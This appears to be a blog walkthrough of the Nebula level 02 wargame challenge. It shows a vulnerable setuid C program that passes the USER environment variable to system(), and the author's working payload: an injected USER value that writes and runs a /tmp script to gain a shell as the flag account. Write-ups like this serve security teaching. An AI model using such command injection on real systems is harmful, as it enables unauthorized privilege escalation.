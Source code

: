 ```yaml
---
layout: post
title: "Exploit Exercises - Nebula 02"
date: "2011-12-03T08:13:00-05:00"
comments: true
categories:
 - Nebula
 - wargames
 - linux
 - exploit-exercises
 - hacking
---
```


In [this](http://exploit-exercises.com/nebula/level02) challenge, we're again provided with the source code to the vulnerable program.  Only this time, they're not loading the "echo" program from the environment's path.

<!-- more -->

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
 char *buffer;

 gid_t gid;
 uid_t uid;

 gid = getegid();
 uid = geteuid();

 setresgid(gid, gid, gid);
 setresuid(uid, uid, uid);

 buffer = NULL;

 asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
 printf("about to call system(\"%s\")\n", buffer);

 system(buffer);
}
```

What I did initially notice here, is that the "USER" variable is being called directly from the environment.  This makes it very similar to the previous challenge.  I luckily got this one on my first try. 

```
level02@nebula:/home/flag02$ USER='-e "#!/bin/bash\n/bin/bash" > /tmp/level02; chmod +x /tmp/level02; /tmp/level02'
level02@nebula:/home/flag02$ export USER
level02@nebula:/home/flag02$ ./flag02
about to call system("/bin/echo -e "#!/bin/bash\n/bin/bash" > /tmp/level02; chmod +x /tmp/level02; /tmp/level02 is cool")
flag02@nebula:/home/flag02$ getflag
You have successfully executed getflag on a target account
```

What we're doing here, is injecting code into the echo command.  This, like the last challenge, makes a bash script at /tmp/level02 which will ignore any other parameters.  It then marks it executable so we can actually execute it.  Then it executes the bash script.

Often times in situations like this, the bash script wouldn't be needed, but since the " is cool" is following the execution, it needs to handle that.  A bash script lets it get ignored, where passing it as a parameter to /bin/bash would try to execute it. 

I'm guessing there may be an easier way than creating the bash script.  Maybe a way to comment out the rest of the line?  I'm not sure, but I know this method worked great for me.
